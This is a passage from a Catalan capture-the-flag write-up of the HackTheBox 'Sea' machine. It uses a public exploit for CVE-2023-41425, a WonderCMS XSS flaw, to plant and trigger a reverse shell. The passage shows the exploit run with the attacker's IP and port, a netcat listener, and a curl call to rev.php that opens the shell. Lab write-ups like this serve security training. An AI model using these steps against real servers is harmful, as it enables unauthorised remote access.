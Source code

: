 La vulnerabilitat de Cross Site Scripting a Wonder CMS v.3.2.0 a v.3.4.2 permet que un atacant remot executi codi arbitrari mitjançant un script dissenyat penjat al component installModule.

Per tant, a veure si fem sort i ens trobem davant una versió de Wonder CMS compatible amb aquest exploit. El repositori inclou amb captures de pantalla el POC, per tant anem a provar a veure si ens funciona. Aquest exploit és per el CVE-2023-41425 i funciona de la següent manera segons el pròpi repositori de GitHub:

L'exploit adjunt "exploit.py" realitza les següents accions:

1. Pren 3 arguments:
    - URL: on està instal·lat WonderCMS (no cal conèixer la contrasenya)
    - IP: la IP de la màquina de l'atacant
    - Núm. de port: el port de la màquina de l'atacant
2. Genera un fitxer xss.js (per a XSS reflectit) i mostra un enllaç maliciós.
3. Tan bon punt l'admin (usuari amb sessió iniciada) obre/clica l'enllaç maliciós, es realitzen unes quantes peticions en segon pla sense que l'admin ho noti per pujar una shell mitjançant la funcionalitat de pujar temes/complements.
4. Després de pujar la shell, s'executa la shell i l'atacant obté la connexió inversa del servidor.

Primer de tot descarreguem l'script fet amb python del repositori i li donem permisos d'execució:

```
┌──(root㉿kaliPol)-[/home/polkali]
└─# cd Documents/Sea      

┌──(root㉿kaliPol)-[/home/polkali/Documents/Sea]
└─# ls
exploit.py
  
┌──(root㉿kaliPol)-[/home/polkali/Documents/Sea]
└─# chmod u+x exploit.py `
```

Un cop fet això, hem d'executar l'exploit.py, posant la url, la nostre IP i el port per el qual escoltarem:

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/Sea]
└─# python3 exploit.py http://sea.htb/themes 10.10.14.106 4444  
``` 

I en un altre terminal escoltar per el port 4444 que és el que hem posat al executar l'exploit.py:

```
┌──(polkali㉿kaliPol)-[~]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
```

A més a més, des d'un altre terminal hem de llençar la comanda següent, amb url, la nostre IP i el port per on estem escoltant. Hem de desencadenar el fitxer rev.php per establir la connexió del servidor objectiu amb la nostra màquina. Això ho podem saber revisant l'script exploit.py ja que hi ha una línia que es menciona diverses vegades en el codi (“GET”, urlWithoutLogBase + “/themes/revshell-main/rev.php”)

``curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.106&lport=4444'``
